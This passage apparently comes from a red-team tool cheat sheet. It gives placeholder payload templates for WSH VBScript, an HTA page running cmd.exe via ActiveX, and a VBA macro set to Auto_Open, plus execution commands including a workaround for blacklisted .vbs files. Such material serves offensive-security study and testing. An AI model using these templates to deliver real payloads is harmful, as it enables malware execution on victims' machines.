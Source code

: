 ```
  -sha256
        Provides the SHA256 value of the loaders (This is useful for tracking)
```

![image](https://user-images.githubusercontent.com/100603074/216729312-6e03f5d2-29a7-4190-8187-daecebfc6a9c.png)

*Image used from https://www.blackhatethicalhacking.com/tools/freeze/*

### [🔙](#tool-list)WSH

**Creating payload:** 

```vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

**Execute:** 

```bash
wscript payload.vbs
cscript.exe payload.vbs
wscript /e:VBScript payload.txt //If .vbs files are blacklisted
```

### [🔙](#tool-list)HTA

**Creating payload:**

```html
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

**Execute:** Run file

### [🔙](#tool-list)VBA

**Creating payload:**

```python
Sub calc()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

**Execute:** Set function to Auto_Open() in macro enabled document

Initial Access
====================

